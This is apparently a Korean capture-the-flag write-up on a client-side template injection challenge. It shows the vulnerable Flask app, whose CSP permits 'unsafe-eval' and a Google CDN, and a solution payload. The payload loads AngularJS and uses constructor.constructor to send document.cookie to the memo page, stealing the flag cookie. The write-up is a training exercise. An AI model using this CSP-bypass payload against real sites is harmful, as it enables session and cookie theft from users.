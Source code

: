 ```yaml
---
title: "[2025-08-12] Client Side Template Injection"
excerpt: "CSTI"

categories:
  - Problem
tags:
  - [XSS, CSTI]

permalink: /Problem/[2025-08-12] CSTI/

toc: true
toc_sticky: true

date: 2025-08-12
last_modified_at: 2025-08-12
---
```


## 🦥 본문

- app.py

```jsx
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True

def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'nonce-{nonce}' 'unsafe-eval' https://ajax.googleapis.com; object-src 'none'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)

@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param

@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'

memo_text = ""

@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)

app.run(host="0.0.0.0", port=8000)

```

- memo.html

```jsx
  <pre>{% raw %}{{ memo }}{% endraw %}</pre>
```

위의 코드들을 기존의 XSS 코드들과 비슷하다. 추가적으로 memo.html에서 템플릿이 사용된다.

CSP는 `script-src`는  `script-src 'nonce-{nonce}' 'unsafe-eval' [https://ajax.googleapis.com](https://ajax.googleapis.com/);` 을 허용하고 있다.

nonce가 있으니 <script src=””> 방식을 사용해야 한다. 또한 템플릿이 있고 `'unsafe-eval' [https://ajax.googleapis.com](https://ajax.googleapis.com/);` 을 허용하였기 때문에 AngularJS 의 Injection을 사용하면 될 것 같다

### 풀이

```jsx
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.3/angular.min.js"></script><html ng-app>{% raw %}{{ constructor.constructor("location='memo?memo='+document.cookie")() }}{% endraw %}</html>
```

- `<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.3/angular.min.js"></script>` : AngularJS 라이브러리를 불러온다.
- `<html ng-app>` : `html` 태그 내에서`ng-app` 을 통해 ng-로시작하는 디렉티브나 {% raw %}{{…}}{% endraw %}
을 찾고 자바스크립트 코드로 평가하여 HTML에 삽입
- 생성자를 이용하여 자바스크립트 코드 실행